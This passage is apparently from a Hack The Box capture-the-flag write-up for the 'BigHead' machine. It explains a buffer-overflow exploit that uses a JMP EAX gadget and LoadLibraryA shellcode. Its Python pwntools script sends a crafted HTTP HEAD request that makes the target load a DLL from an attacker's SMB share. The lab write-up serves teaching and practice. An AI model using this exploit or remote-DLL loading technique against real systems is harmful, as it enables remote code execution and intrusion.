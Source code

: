![](/assets/images/htb-writeup-bighead/exploit/loadlibrary.png)

The function is simple and only expects a single parameter: the filename of the DLL file:

```
HMODULE LoadLibraryA(
  LPCSTR lpLibFileName
);
```

The exploit uses the same `JMP EAX` gadget to jump to the beginning of the buffer. Then we align the stack, and set `EAX` past the buffer and we push it to the stack: this will contain the address of the string of our SMB server. Finally we move the address of `LoadLibrary` into `EBX` then `CALL EBX` to call the function. The filename argument for `LoadLibrary` is popped from the stack and the DLL is then loaded.

```
nasm > add al, 0x28
00000000  0428              add al,0x28

nasm > push eax
00000000  50                push eax

nasm > mov ebx, 0x62501B58
00000000  BB581B5062        mov ebx,0x62501b58

nasm > call ebx
00000000  FFD3              call ebx
```

The final exploit looks like this:

```python
#!/usr/bin/python
from pwn import *
import binascii

r = remote("10.10.10.112", 80)

load_lib = ""
load_lib += "\x80\x04\x28"         # add ah, 28h
load_lib += "\x50"                 # push eax
load_lib += "\xBB\x58\x1B\x50\x62" # 62501B58 ebx -> LoadLibrary
load_lib += "\xFF\xD3"             # call ebx

smb =  "\\\\10.10.14.23\\share\\x.dll"
load_lib = binascii.hexlify(load_lib)
smb = binascii.hexlify(smb)

jmp_eax = "f2125062"
align_esp = "505C" # push eax, pop esp
buf =  align_esp + load_lib + "90" * 24 + jmp_eax + smb
head = "HEAD /" + buf + " HTTP/1.1\r\n"
head += "Host: dev.bighead.htb\r\n"
head += "Connection: close\r\n"
head += "\r\n"
```